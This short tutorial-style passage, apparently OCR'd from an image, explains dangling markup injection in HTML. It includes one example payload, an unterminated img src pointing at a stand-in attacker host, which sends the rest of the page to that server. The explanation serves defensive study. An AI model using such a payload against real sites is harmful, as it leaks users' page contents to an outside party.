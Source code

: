Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
## Example
Suppose an application is vulnerable to XSS and does not filter or escape the `>` or `"` characters. An attacker can break out of any quoted attribute value and the enclosing tag using `">` in their payload which allows them to return to an HTML context.

However, a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. In this case, an attacker can deliver the following payload and perform a dangling markup injection attack:
```html
"><img src='//attacker-website.com?
```
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note the payload doesn't close the `src` attribute, which is left "dangling". When the browser parses the response, it will look throughout the content until it encounters another single quote to terminate the attribute. Everything until that character will be treated as part of the URL and will be sent to the attacker's server within the query string.